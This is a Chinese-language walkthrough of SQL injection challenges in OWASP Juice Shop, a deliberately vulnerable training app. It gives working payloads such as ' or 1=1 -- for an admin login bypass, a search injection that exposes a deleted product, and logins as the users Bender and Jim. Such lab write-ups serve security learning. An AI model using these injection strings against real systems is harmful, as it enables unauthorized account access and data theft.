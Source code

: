   ![Injectoin](https://github.com/CCH0124/OWASP-Practice/blob/master/Pwning%20OWASP%20Juice%20Shop/image/2.png "Injectoin")
  
  1. 輸入 Email ：
  
  ```mysql
  ' or 1=1 --
  ```
  2. 輸入 Password：任意  
  3. 即可以最高權限登入
  
  **Order the Christmas special offer of 2014**
  
  ![Injection](https://github.com/CCH0124/OWASP-Practice/blob/master/Pwning%20OWASP%20Juice%20Shop/image/3-1.png "Injection")
  1. 注入 
  
  ```mysql 
  ' or 1=1 /* 
  ```
  
  2. 發現開發人員 consle 出現 500 Error
  ![Injection](https://github.com/CCH0124/OWASP-Practice/blob/master/Pwning%20OWASP%20Juice%20Shop/image/4.png "Injection")
  
  其中 
  
  ```mysql
  SELECT * FROM Products WHERE ((name LIKE '%' or 1=1 /*%' OR description LIKE '%' or 1=1 /*%') AND deletedAt IS NULL) ORDER BY name
  deletedAt IS NULL 
  ```
  應該是 Database 必須執行某種 soft delete
  在 search 中下這一段 ***Christmas%25'))*** 會變成
  
  ```mysql
  SELECT * FROM Products WHERE ((name LIKE '%Christmas%'))%' OR description LIKE '%Christmas%'))%') AND deletedAt IS NULL) ORDER BY name
  ```
  後頭再加上 `/*` 將後半部語法註解，接著就可以結帳去...
  
  ![Injection](https://github.com/CCH0124/OWASP-Practice/blob/master/Pwning%20OWASP%20Juice%20Shop/image/4-1.png "Injection")
  ![Injection](https://github.com/CCH0124/OWASP-Practice/blob/master/Pwning%20OWASP%20Juice%20Shop/image/4-2.png "Injection")

  **Log in with Bender's user account**
  Login 的 Email 輸入 
  ```mysql
  ' or 1=1 AND email LIKE '%Bender%' /*
  ```
  **Log in with Jim's user account**
  Login 的 Email 輸入 
  ```mysql
  ' or 1=1 AND email LIKE '%Jim%' /*
  ```
  **Let the server sleep for some time**
  
  **Update multiple product reviews at the same time**
  
  **Retrieve a list of all user credentials via SQL Injection**
  